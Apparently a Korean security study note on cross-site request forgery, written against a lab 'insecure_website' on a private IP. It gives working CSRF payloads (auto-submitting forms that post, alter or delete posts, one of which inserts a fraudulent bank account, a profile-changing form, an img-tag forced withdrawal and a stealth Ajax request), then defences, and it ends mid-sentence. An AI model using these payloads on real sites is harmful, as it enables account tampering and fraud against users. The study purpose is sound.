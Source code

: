 ```yaml
---
CMDS: Security
관련 문서:
  - "[[109 Security]]"
tags:
  - "#CSRF"
  - "#XSRF"
---
```


Cross-Site Request Forgery : 사용자가 의도하지 않은 일을 공격자에 의해 강제로 수행되게 만드는 방식

1. 사용자 정보 수정
2. 패스워드 변경
3. 탈퇴

  

공격 원리

![[90. Settings/92. Attachments/Untitled 21.png|Untitled 21.png]]

![[90. Settings/92. Attachments/Untitled 1 3.png|Untitled 1 3.png]]

  

XSS vs CSRF

XSS : 공격 대상이 사용자

CSRF : 공격 대상이 서버 ( 공격 요청이 아님 )

  

실습

게시글이 어떤 로직으로 진행되는지 파악해야함

  

게시글을 클릭하면 해당 사용자 명의로 게시글 작성

```JavaScript
<body onload="document.forms[0].submit()">
	<form action="http://192.168.55.206/insecure_website/action.php" method="POST" 
	enctype="multipart/form-data">
		<input type="hidden" name="title" value="해커가 무단으로 작성">
		<input type="hidden" name="password" value="test">
		<input type="hidden" name="content" value="해커다">
		<input type="hidden" name="mode" value="write">
		<input type="submit">
	</form>
</body>
```

게시글 클릭시 해당 내용으로 게시글 수정

```JavaScript
<body onload="document.forms[0].submit()">
	<form action="http://192.168.55.206/insecure_website/action.php" method="POST" 
	enctype="multipart/form-data">
		<input type="hidden" name="title" value="계좌번호 정보입니다">
		<input type="hidden" name="content" 
		value="*은행 : 우리 *예금주 : 해커 
		*계좌번호 : 4444-4444-44444444 모든 상품에 대한 입금은 해당 계좌로 진행하시면 됩니다">
		<input type="hidden" name="password" value="a">
		<input type="hidden" name="idx" value="21">
		<input type="hidden" name="mode" value="modify">
		<input type="submit">
	</form>
</body>
```

게시글 클릭 시 게시글 삭제

```JavaScript
<body onload="document.forms[0].submit()">
	<form action="http://192.168.55.206/insecure_website/action.php" method="POST"
	 enctype="multipart/form-data">
		<input type="hidden" name="password" value="a">
		<input type="hidden" name="idx" value="23">
		<input type="hidden" name="mode" value="delete">
		<input type="submit">
	</form>
</body>
```

  

2) 회원정보 무단 수정, 탈퇴

게시글 클릭 시 개인정보 수정

```JavaScript
<body onload="document.forms[0].submit()">
	<form action="http://192.168.55.206/insecure_website/index.php?page=mypage" 
	method="POST">
		<input type="hidden" name="gubun" value="action">
		<input type="hidden" name="name" value="희생자">
		<input type="hidden" name="email" value="victim">
		<input type="hidden" name="company" value="희생">
		<input type="submit">
	</form>
</body>
```

게시글 클릭 시 탈퇴

```JavaScript
<img src="http://192.168.55.206/insecure_website/withdrawal.php">
```

  

3) Ajax를 활용한 Stealth CSRF 공격

→ 게시글에 들어가도 회원 정보가 변경되었는지 알아차리기 힘듬

(일반 게시글에 들어간것처럼 느껴지지만 실제로는 회원정보가 변경)

```JavaScript
<script>
var xhp=new XMLHttpRequest();
//전송방식, URL, 동기화 여부(true=비동기화)
xhp.open("POST","http://192.168.55.206/insecure_website/index.php?page=mypage",true);
xhp.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
xhp.send("gubun=action&name=희생자&password=test&email=victim&company=희생");
</script>
```

  

대응방안

1. Referer 값 검증
    
    회원 정보가 정상적인 사이트에서 이루어졌는지 검증
    
2. CSRF TOKEN 사용
    
    세션에 Token을 넣고, Form 태그 내에도 Token 값을 넣어 두개의 값을 비교해서 정상적인 요청인지 확인
    
    ![[90. Settings/92. Attachments/Untitled 2 4.png|Untitled 2 4.png]]
    
3. 인증 로직 / CAPCHA 사용
    
    수정, 삭제 시 패스워드 요구
    
4. SameSite Cookie
    
    다른 사이트로 갈 때 쿠키 값을 전달하지 않